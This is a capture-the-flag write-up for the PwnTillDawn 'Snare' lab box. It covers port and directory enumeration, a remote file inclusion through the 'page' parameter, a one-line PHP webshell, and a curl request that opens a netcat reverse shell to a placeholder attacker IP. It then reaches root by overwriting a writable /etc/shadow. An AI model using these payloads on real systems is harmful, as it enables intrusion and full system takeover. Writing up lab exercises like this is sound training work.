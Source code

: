 ```yaml
---
title: Snare
date: 2025-10-12 12:00:00 +0800
categories: [PwnTillDawn]
tags: [critical_write_access,linux,rfi]
media_subpath: /images/ptd_snare/
image: 
    snare.png
---
```

**Snare** was a **easy** level box , where we leveraged a `RFI` to get a foothold in the system then after enumeration we found out , we had write access on a critical system file m by overwriting it , we got to `root`.

## Initial Enumeration.
### Nmap Result.
```console
$ nmap -vvv -p 22,80 -4 -sV -oN nmap 10.150.150.18
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see the following Ports Open :-
 - Port `22` is running `OpenSSH 8.2p1`
 - port `80` is running `apache 2.4.41`

From the `Nmap` scan we get to know that the Target server is running **Ubuntu**.

### PORT 80

I ran a basic **Directory Busting** scan on this port through `gobsuter` , which gave the following results.

```console
$ gobuster dir -u http://10.150.150.18/  -w ~/HackStuff/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -x php,html,txt -o gobuser.log -t 30
...[SNIP]...
/index.php            (Status: 302) [Size: 953] [--> /index.php?page=home]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/about.php            (Status: 200) [Size: 996]
/contact.php          (Status: 200) [Size: 941]
/home.php             (Status: 200) [Size: 946]
/includes             (Status: 301) [Size: 317] [--> http://10.150.150.18/includes/]
```

Upon Visiting the webpage , we see a couple of things.
![port 80 pic](80.png)

- The content on the `webpage` is not useful just `lorem Ipsum`
- when i click the different tabs like `home`,`about us`,`contact` the parameter `page` on the `url` changes.

so there is a possible `lfi/rfi` in that parameter , lets check the `/includes` directory.

![includes](includes.png)

most of them were empty or useless , like `design-top.php` only returns the heading.

![design-top](design-top.png)


## Getting FootHold

![failed lfi](failed-lfi.png)

i tried some `lfi` payloads , and fuzzed with `lfi-jhaddix.txt` but it didn't worked , so i noticed the `url` dosen't uses `.php` extension like for `contact.php` it uses `?page=contact` so maybe the application is appending the `.php` extension , so lets verify it by using the help of `/includes`.

![test](test.png)

the above payload dosen't work , but when i remove the `.php` extension.

![working lfi](working.png)
so `LFI` is confirm , but we cant fully leverage this , to leverage this , we have to find some  kind of way to do `RFI` to host our custom `php` file, so i host a file in my local machine , and send a request to url like this.

```url
http://10.150.150.18/index.php?page=http://ATTACKERIP:9000/test
```

```console
➜  10.150.150.18 echo test > test.php                                            
➜  10.150.150.18 python3 -m http.server 9000                  
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
```

and it got included in the source code !

![source code included](source-code-included.png)

so to get a shell , i just hosted this simple `webshell`.

```bash
➜  10.150.150.18 /bin/cat simple-web-shell.php 
<?=`$_GET[0]`?>
➜  10.150.150.18 
```

and sent this request through `caido/Burp`.

![caido](caido.png)

- for `cURL` it would look like this.
```bash
curl -k $'http://10.150.150.18/index.php?0=busybox+nc+ATTACKERIP+4444+-e+bash&page=http://ATTACKERIP:9000/simple-web-shell' 
```

![pwncat](pwncat.png)

## Prevesc

### Www-data to root

- First we will take our `FLAG-1.txt`

```bash
(remote) www-data@snare:/var/www/html$ wc -c /home/snare/FLAG1.txt 
41 /home/snare/FLAG1.txt
(remote) www-data@snare:/var/www/html$ 
```

- then i upload `lse.sh` and ran it.
![lse](lse.png)

- Voila ! `/etc/shadow` is writable by us ! getting root will be very easy , first we will generate a custom password for `root`.

```bash
➜  10.150.150.18 mkpasswd -m sha-512 toor
$6$BJ.kkMHkFyWO5ZWY$v50PydIPTgJ.CQfJrX8hnkHp8dyaqlvn.brWxBlwJa28LrElXwBYEly2Mbd/n70WO291loSufYSIdCLqkuUNk1
➜  10.150.150.18 
```

- and we will edit `/etc/shadow` and replace the original root hash with this `hash` in root's place , and we will just `su root` and enter `toor` and we will get `root`.

```bash
(remote) www-data@snare:/tmp$ su root
Password: 
root@snare:/tmp# wc -c /root/FLAG2.txt 
41 /root/FLAG2.txt
root@snare:/tmp# 
```


